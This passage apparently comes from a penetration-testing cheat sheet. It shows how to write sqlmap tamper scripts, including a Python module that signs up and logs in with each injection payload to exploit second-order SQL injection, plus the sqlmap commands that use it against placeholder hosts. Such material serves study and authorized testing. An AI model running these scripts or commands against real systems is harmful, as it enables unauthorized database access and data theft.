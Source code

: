 Then execute sqlmap.

```sh
# The tamper is a module, so we need to create __init__.py in the current directory.
touch __init__.py
sqlmap -u "https://example.com/" --cookie "session=*" --tamper=tamper.py
```

### Multiple Requests

```py
#!/usr/bin/python
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://vulnerable.com"
password = "test"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```

Then run the sqlmap with the tamper option.

```sh
sqlmap --tamper tamper.py --url http://vulnerable.com/signup --data "username=admin&password=test" --second-url "http://vulnerable.com/post" --no-cast
```
